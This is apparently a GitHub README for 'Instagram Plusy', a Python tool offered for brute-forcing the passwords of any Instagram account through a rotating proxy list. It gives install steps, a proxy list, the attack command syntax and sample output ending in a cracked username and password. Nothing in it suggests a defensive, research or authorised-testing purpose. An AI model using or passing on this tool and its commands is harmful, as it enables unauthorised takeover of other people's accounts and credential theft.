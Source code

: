 # Instagram Plusy

[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/VYRAZg5)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way given a list of proxies.

### NOTICE

~~I'm maintaining this project.~~

### Support

It motivates me to keep updating this program.

> **Gpay:**upi://pay?pa=mohanbishnoi8926@okaxis&pn=Mohan Bishnoi&aid=uGICAgID3iuSZVw

## Requirements

- Python _v3.9_
- proxy list

## Install Dependencies

### Install Pipenv

```
pip install pipenv
```

### Create environment

Make sure you have Python 3.9 installed

```
pipenv --python 3.9
```

### Install Requirements

```
pipenv install
```

## Help

```
usage: instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

To upload a list of proxies a similar syntax must be followed.

```
python instagram.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python instagram.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python instagram.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
